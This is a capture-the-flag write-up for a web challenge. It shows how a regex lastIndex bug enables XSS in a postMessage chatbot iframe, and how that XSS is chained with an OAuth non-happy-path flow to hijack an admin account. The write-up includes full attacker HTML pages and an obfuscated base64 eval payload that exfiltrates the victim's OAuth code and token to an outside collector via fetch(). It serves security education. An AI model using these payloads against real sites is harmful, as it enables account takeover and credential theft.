 # Give me a switch !

# Description

Luigi finally gathers enough money to buy a switch, but the marketplace blocks him... Help him!

Author: Mizu

# Sources

https://github.com/ESAIP-CTF/public-esaip-ctf-2023/tree/master/challenges/web/give_me_a_switch

# Solution

In this challenge, we're given the application's source code, and we can see that it's rather short. What we can clearly identify is that we'll need to find a vulnerability in the application's oauth implementation to take control of the administrator's account and retrieve our flag. In fact, to have the flag, we have to had the correct access_token, and the correct email :

```js

const access_token = req.session.access_token;
if (access_token) {
    axios.get(`https://www.googleapis.com/oauth2/v2/userinfo?fields=email&access_token=${access_token}`).then(response => {
        const email = response.data.email;
        if (email === process.env.EMAIL) {
            res.send(allowed);
        } else {
            res.status(403);
            res.send(not_allowed);
        }
    })
}
```

This challenge is separated in two domains :
- Main domain : https://app-give-me-a-switch.esaip-cyber.com
- Chat domain : https://chat-give-me-a-switch.esaip-cyber.com

On the main app, there isn't any relevant things, except the route /buy which will gave us our flag. If we look at the sources, we can see that a chatbot have been implemented on the application, if we look closer to the frontend code, we can see that it's working with iframe postmessage :

```js
//javascript in https://chat-give-me-a-switch.esaip-cyber.com domain
window.onload = () => {
    var bot = new ChatBot();

    onmessage = e => {
        if (!(e.source === parent)) { return }

        if (e.data.action === "init") {
            bot.init(e.data.caller);

        } else if (e.data.action === "ask") {
            var d = new Date();
            d = d.getHours() + ':' + d.getMinutes();

            user_msg(e.data.question, d);
            bot_msg(bot.ask(e.data.question), d);
            scrollTo(0, document.body.scrollHeight);
        }
    }
}
```

If we look at the javascript of the main domain, we can see that a iframe is created, and it's sending post message to her :

```html
[...]
<button onclick="bot.contentWindow.postMessage({'action': 'ask', 'question': this.innerText}, '*');">What is the status of my order?</button>
[...]
```

Here the is a problem, in fact, in the chat domain server code, there isn't any restriction to iframe this domain, so we can iframe it from our domain (for example vitemaweed.fr), and send post message to it !

Now, you can think "yeah you can iframe a website incredible what's the matter here ?", the problem is in the code that handle and happened the message send through post message :

```js
const regex = /<|>/g;
var user_msg = (msg, date) => {
    const user_template = `
    <div class="d-flex flex-row justify-content-end mb-4 pt-1">
        <div>
            <p class="small p-2 me-3 mb-1 text-white rounded-3" style="background-color: #FF393A;">{{message}}</p>
            <p class="small me-3 mb-3 rounded-3 text-muted d-flex justify-content-end">{{date}}</p>
        </div>
        <img src="/static/img/toad.png" alt="avatar 1" style="width: 45px; height: 100%;">
    </div>`;

    let content;
    var output  = document.createElement("div");
    if (regex.test(msg)) {
        content = user_template
            .replace("{{message}}", "Attack detected!")
            .replace("{{date}}", date);
    } else {
        content = user_template
            .replace("{{message}}", msg)
            .replace("{{date}}", date);
    }
    output.innerHTML = content;
    chat.appendChild(output);
}
```

We can see that if we match the regex, the message send will be happened with `innerHTML`, which can leads to XSS. But how can we bypass this regex ?

In the `test` function, there is a bug. When you're using the `/g` flag in a regex, which means "global", the `regex.text` function will keep an internal index of the last match, and if you recall it in the same context, this internal index will reference the last match, and it will not start from the beginning of the new string, but from the last index, see [here](https://stackoverflow.com/questions/43827851/bug-with-regexp-test-javascript).

Here we are not in a loop, but the post message are received in the same context, so we have to send a lot of "a" in the first post message, followed by a "<" to trigger the regex, so the internal index will be huge, and we can put our xss in the second post message.

I've created this little HTML to do so :

```html
<!DOCTYPE HTML>
<head>
</head>
<body>
<p id="leak"></p>
<iframe id="iframe" src="http://chat-give-me-a-switch.esaip-cyber.com:3001/bot"></iframe>
<script>
setTimeout(function(){
document.getElementById("iframe").contentWindow.postMessage({"action":"init","caller":"worty"},"*");
document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*");
document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":`<img src=x onerror="alert(document.domain)"`},"*");
})
</script>
</body>
</html>
```

And we get :

![xss](images/1.png)

So here we have an xss in an iframe domain that can communicate with the main domain, what can we do ? While looking for an exploit, I found this very interesting article from [@fransrosen](https://twitter.com/fransrosen), which talk about [account hijacking using dirty dancing in oauth flows](https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/), particulary "Non-happy paths in the OAuth-dance". 

So to exploit this, we have to force the administrator to sign in in the oauth flow, but with a wrong state. What happened in this case ? The application didn't handle this case, and all oauth parameters will be reflected in the url fragment, which can be recovered in javascript. (if we are on the same domain). The problem here is that the xss is on the chat domain, not on the main domain that handle the oauth flow. 

But if we came back at the frontend source of the main app, we can see this in the "main.js" file :

```js
window.onload = () => {
    scroll = () => {};
    setTimeout(() => { bot.contentWindow.postMessage({"action": "init", "caller": document.location.href}, '*') }, 500);
}
```

The main domain is sending through a post message the current location of the window, and that can be recovered from our iframe !

So we have all our gadgets, here is the plan :

- Trigger the XSS on the chat domain to force the oauth to be triggered with a wrong state to trigger a non-happy path :

```
https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?response_type=code,token&redirect_uri=https%3A%2F%2Fapp-give-me-a-switch.esaip-cyber.com%2Fauth%2Fcallback&scope=email&client_id=374058566213-j138s6n7s5dmpqqj36nqj1c2kk62eivo.apps.googleusercontent.com&state=aa20df0b6bc39be1ae8d24d8f56e954e3e271e76b9e85879c687653e205788f649aa&service=lso&o2v=2&flowName=GeneralOAuthFlow

- response_type : code,token => here we want the code of the victim, and we put "token" to have the response in the fragment of the URL
- client_id : We recover it from a normal authentication with the app
- state : An invalid state to trigger the non-happy path
```

- Execute some javascript on the chat domain iframe to listen for event on the current window to recover the post message from the main application that send the current location :

```js
x = setInterval(function() { if(b && b.frames[0]) { b.frames[0].eval('window.addEventListener("message",function(e){var a= e.data.caller;fetch("https://ensvuwgi6wpdc.x.pipedream.net/?data="+encodeURIComponent(a));})')}});
```

Here is the final HTML payload that have to be stored on the attacker server :

```html
<!DOCTYPE HTML>
<head>
</head>
<body>
<p id="leak"></p>
<iframe id="iframe" src="https://chat-give-me-a-switch.esaip-cyber.com/bot"></iframe>
<script>
setTimeout(function(){
document.getElementById("iframe").contentWindow.postMessage({"action":"init","caller":"worty"},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":`<img src=x onerror="b = window.open('https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?response_type=code,token&redirect_uri=https%3A%2F%2Fapp-give-me-a-switch.esaip-cyber.com%2Fauth%2Fcallback&scope=email&client_id=374058566213-j138s6n7s5dmpqqj36nqj1c2kk62eivo.apps.googleusercontent.com&state=aa20df0b6bc39be1ae8d24d8f56e954e3e271e76b9e85879c687653e205788f649aa&service=lso&o2v=2&flowName=GeneralOAuthFlow')">`},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*")

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":`<img src=x onerror='eval(atob("eCA9IHNldEludGVydmFsKGZ1bmN0aW9uKCkgeyBpZihiICYmIGIuZnJhbWVzWzBdKSB7IGIuZnJhbWVzWzBdLmV2YWwoJ3dpbmRvdy5hZGRFdmVudExpc3RlbmVyKCJtZXNzYWdlIixmdW5jdGlvbihlKXt2YXIgYT0gZS5kYXRhLmNhbGxlcjtmZXRjaCgiaHR0cHM6Ly9lbnN2dXdnaTZ3cGRjLngucGlwZWRyZWFtLm5ldC8/ZGF0YT0iK2VuY29kZVVSSUNvbXBvbmVudChhKSk7fSknKX19KTs="))'>`},"*")
},2000);

</script>
</body>
```

We now send this to the administrator, we recover is token inside the leaked URL, and we can authenticate with it's account through /auth/callback !

![flag](images/2.png)

Thanks a lot to [@kevin_mizu](https://twitter.com/kevin_mizu) for this challenge !

# Flag

ECTF{0auTh+hR3f_P0S1_M3sS4g3_L34k_T0_TH3_m00N}
